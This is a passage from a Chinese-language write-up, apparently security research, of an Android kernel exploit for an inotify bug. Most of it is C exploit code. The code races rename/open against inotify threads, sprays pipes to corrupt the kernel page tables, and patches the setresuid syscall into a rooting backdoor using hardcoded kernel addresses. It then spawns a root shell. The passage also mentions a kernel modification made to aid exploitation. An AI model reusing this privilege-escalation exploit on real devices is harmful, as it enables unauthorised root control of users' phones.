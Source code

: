 我为了继续验证漏洞利用，修改了内核代码，使用了 memcpy 来解决遇 0 截断问题。

```
strcpy(event->name, file_name);
if (strlen(file_name) > len)
{
    memcpy(event->name, file_name, 156);
}

```

代码位于 fs/notify/inotify/inotify_fsnotify.c。

3、修改 cred

```
void test_addr_directly() {
   unsigned long addr = 0xffffffc200000000 + 0x872800;
   printf("0x%lx  --> 0x%lx\n", addr, *(unsigned long *) addr);
}
 
int main(void) 
{
    initmappings();
    createpipes();
    sleep(2);
    releaehalfpipes();
    waithalfrelease();
 
    pthread_t notify_thread[4];
    pthread_t rename_thread;
    int i = 1;
     
    char buf[1024];
    snprintf(buf, sizeof buf, "touch test_dir/%s", orig_name);
    system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
    system(buf);
 
    for ( i ; i < 2; i++ ) {
        pthread_create(¬ify_thread[i], 
                   NULL, 
                   notify_thread_func, 
                   NULL);
    }
    //Trigger inotify event by file open and rename to 
    //trigger the vulnerability 
    pthread_create(&rename_thread, NULL, trigger_rename_open, NULL);
 
    pthread_join(rename_thread, NULL);
    printf("rename_thread end\n");
    for ( i = 1; i < 2; i++ )
        pthread_join(notify_thread[i], NULL);
    printf("notify_thread end\n");
    writehalfpipes();//向内核页表写入block
    waitallrelease();//等待线程结束
    test_addr_directly();//测试是否可以在用户态访问内核态，如果没有成功，会crash   
     
    unsigned long setresuidaddr = 0xffffffc0000ad968 - 0xffffffc000000000 + 0xffffffc200000000;
    patch_syscall(setresuidaddr); //通过新的虚拟地址来修改setresuid这个函数的内容
    printf("get root from rooting backdor\n");
    setresuid(0x1111, 0x2222, 0x3333);//提权
    if (getuid() == 0)
    {
        printf("spawn a root shell\n");
        execl("/system/bin/sh", "/system/bin/sh", NULL);
    }
```